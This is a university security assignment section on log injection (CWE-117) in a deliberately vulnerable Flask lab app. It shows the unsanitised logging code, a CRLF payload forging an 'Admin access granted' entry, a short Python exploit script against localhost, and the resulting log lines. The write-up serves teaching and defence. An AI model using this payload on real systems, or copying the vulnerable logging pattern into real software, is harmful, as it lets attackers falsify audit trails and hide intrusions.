

# Vulnerability 2: Log Injection

*ISEC3004 Assignment 1 — Group 13*
*Author: Bhagya Wijenanda*

> **Scope of this section:** Overview, vulnerable code, and exploitation of the
> Log Injection vulnerability. Detection and tracing, mitigation, and
> verification for this vulnerability are documented in the following
> subsection (Arindi).

---


## 2.1 Overview

### 2.1.1 What the vulnerability is

**Log Injection** (also known as **log forging**) is a vulnerability in which
untrusted user input is written to application or system logs without first
neutralising control characters. Because log files are typically newline‑delimited
plain text, an attacker who can insert newline characters — a carriage return and
line feed, `\r\n` (CRLF) — into a value that the application logs can forge entire
additional log entries that are indistinguishable from genuine ones
(OWASP Foundation, n.d.).

The vulnerability is formally classified as **CWE‑117: Improper Output
Neutralization for Logs** (MITRE, 2023). It also sits within the OWASP Top 10
category **A09:2021 – Security Logging and Monitoring Failures**, because it
directly undermines the integrity of the logs that this category depends upon
(OWASP Foundation, 2021).

### 2.1.2 Why it is common and significant

Logging user‑supplied data is near‑universal in modern applications — failed
login usernames, search terms, and submitted form fields are routinely recorded
for auditing and debugging. The insecure pattern of concatenating that input
directly into a log message is therefore widespread. The flaw is also easy to
miss during ordinary testing: the application behaves correctly for normal input,
and the defect only manifests when an attacker deliberately submits control
characters, so it frequently reaches production (OWASP Foundation, n.d.).

Its significance stems from *what* it attacks. Logs are the primary source of
truth during incident response and are consumed by Security Information and Event
Management (SIEM) systems. By forging, corrupting, or burying entries, an attacker
can fabricate events, mislead investigators, hide their own activity, or — where
logs are later rendered in a web‑based dashboard — escalate the flaw into stored
cross‑site scripting (OWASP Foundation, n.d.). The loss of a trustworthy audit
trail also breaches the tamper‑evident logging requirements of standards such as
PCI‑DSS and ISO 27001.

### 2.1.3 Impact summary

| Consequence | Effect on the system |
|---|---|
| Log forging | False audit records; fabricated or repudiated events |
| Log corruption | Broken log parsers; unreliable SIEM ingestion |
| Trace hiding | Genuine attacker activity obscured during forensics |
| Secondary injection | Stored XSS in log viewers; downstream parser exploitation |
| Integrity / compliance loss | Audit trail no longer admissible as reliable evidence |

---


## 2.2 Vulnerable code

The vulnerability is located in the `/feedback` route of the shared Flask
application (`vulnerable_app/app.py`). The application logs each submitted
comment using Python's `logging` module, which is configured to write to
`app_vulnerable.log` with the format `%(asctime)s - %(levelname)s - %(message)s`.

The insecure section is the log call, which concatenates the user‑supplied
`comment` directly into the log message with no sanitisation:

```python
@app.route('/feedback', methods=['GET', 'POST'])
def feedback():
    if 'user' not in session:
        return redirect(url_for('login'))

    if request.method == 'POST':
        comment = request.form.get('comment')
        user = session.get('user', 'anonymous')

        # ---------------------------------------------------------------
        # VULNERABILITY: Log Injection
        # (CWE-117: Improper Output Neutralization for Logs)
        #
        # The user-supplied 'comment' is written STRAIGHT into the log
        # message with no sanitisation. Python's logging module writes
        # whatever bytes it is given to app_vulnerable.log verbatim,
        # including any control characters in the user's input.
        #
        # RISK: If 'comment' contains CRLF characters (\r\n), the single
        # intended entry is split into MULTIPLE lines on disk. An attacker
        # can therefore FORGE fake log records that look identical to
        # genuine ones (log forging).
        # ---------------------------------------------------------------
        logging.info(f"New feedback received from user '{user}': {comment}")
```

**Why this is insecure.** The `logging` module performs no neutralisation of
control characters; it writes the message it is given verbatim. Because `comment`
is attacker‑controlled and is inserted without validation or encoding, any newline
characters it contains become real line breaks in `app_vulnerable.log`. A single
logical log call can therefore produce two or more physical lines, the additional
lines being entirely attacker‑defined. This is the root cause exploited in
Section 2.3.

---


## 2.3 Exploitation

### 2.3.1 The payload

The exploit submits the following value in the feedback **comment** field, where
`\r\n` is the injected CRLF sequence and everything after it is a forged log entry
crafted to match the application's log format:

```
Nice work team\r\n2026-09-24 09:15:00,000 - WARNING - SECURITY: Admin access granted to user 'attacker' from 127.0.0.1
```

Because the `/feedback` route requires an authenticated session, the exploit
script (`exploits/log_injection_exploit.py`) first requests `/login` to establish
a session, then submits the malicious comment:

```python
import urllib.request, urllib.parse, http.cookiejar

BASE = "http://127.0.0.1:5000"
PAYLOAD = (
    "Nice work team\r\n"
    "2026-09-24 09:15:00,000 - WARNING - SECURITY: Admin access granted "
    "to user 'attacker' from 127.0.0.1"
)

cj = http.cookiejar.CookieJar()
opener = urllib.request.build_opener(urllib.request.HTTPCookieProcessor(cj))
opener.open(BASE + "/login")
opener.open(BASE + "/feedback",
            data=urllib.parse.urlencode({"comment": PAYLOAD}).encode())
```

### 2.3.2 How the exploit works, step by step

1. **The sink.** The `/feedback` route logs the raw comment via
   `logging.info(...)` with no sanitisation (Section 2.2).
2. **The injection.** The attacker submits a comment containing a `\r\n`
   sequence. The `logging` module writes the message bytes to
   `app_vulnerable.log` verbatim.
3. **The split.** The injected `\n` is a genuine newline on disk, so the single
   intended entry becomes two physical lines — the first ends after
   `Nice work team`; a new line then begins.
4. **The forgery.** The attacker prefixed the injected content with a valid
   `timestamp - LEVEL - message` structure, so the second line reads as an
   authentic `WARNING` security event that the application never generated.
5. **The result.** An analyst — or a SIEM ingesting the file line by line — sees
   a fabricated "Admin access granted to attacker" record presented as genuine
   evidence.

### 2.3.3 Evidence

Submitting a **normal** comment produces a single, correct entry:

```
2026-09-24 00:03:17,150 - INFO - New feedback received from user 'victim_user': Great app, thanks!
```

Submitting the **CRLF payload** causes the one log call to write two lines, the
second being the forged record:

```
2026-09-24 00:03:17,151 - INFO - New feedback received from user 'victim_user': Nice work team
2026-09-24 09:15:00,000 - WARNING - SECURITY: Admin access granted to user 'attacker' from 127.0.0.1
```

The forged line carries an attacker‑chosen timestamp, severity level, and message,
and is indistinguishable from a legitimate entry when the file is viewed normally.




> screenshot of `app_vulnerable.log` showing the benign
> baseline entry followed by the forged `WARNING` entry produced by the payload.

### 2.3.4 Impact of a successful exploit

A successful exploit destroys the integrity of the audit trail. Using the same
technique, an attacker can fabricate security events, attribute actions to an
innocent user, or inject large volumes of noise to bury evidence of their own
activity. Where the log is subsequently displayed in a web interface, the injected
content can additionally deliver stored XSS against whoever reviews the logs
(OWASP Foundation, n.d.). In all cases the organisation loses the reliable record
on which detection, forensics, and compliance depend.

---


## References

MITRE. (2023). *CWE-117: Improper neutralization of output for logs*. The MITRE Corporation. https://cwe.mitre.org/data/definitions/117.html

OWASP Foundation. (n.d.). *Log injection*. Retrieved September 24, 2026, from https://owasp.org/www-community/attacks/Log_Injection

OWASP Foundation. (2021). *A09:2021 – Security logging and monitoring failures*. https://owasp.org/Top10/A09_2021-Security_Logging_and_Monitoring_Failures/
